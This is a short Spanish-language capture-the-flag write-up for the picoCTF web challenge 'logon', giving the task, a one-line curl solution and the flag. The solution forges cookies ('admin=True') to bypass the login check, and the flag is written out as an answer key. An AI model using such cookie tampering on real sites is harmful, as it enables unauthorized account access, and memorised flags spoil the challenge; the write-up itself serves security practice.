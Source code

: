 **Reto:** logon 

**Descripción:**
La fábrica oculta información a todos sus usuarios. ¿Puedes iniciar sesión como Joe y descubrir lo que han estado viendo? `https://jupiter.challenges.picoctf.org/problem/13594/`( [enlace](https://jupiter.challenges.picoctf.org/problem/13594/) ) o http://jupiter.challenges.picoctf.org:13594

**Solución:**
curl "https://jupiter.challenges.picoctf.org/problem/13594/flag" -H "Cookie: username=admin; password=admin; admin=True"
==picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}==
**Notas adicionales:**

**Referencias:** 
https://www.youtube.com/watch?v=P2njyHWhu1U&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=3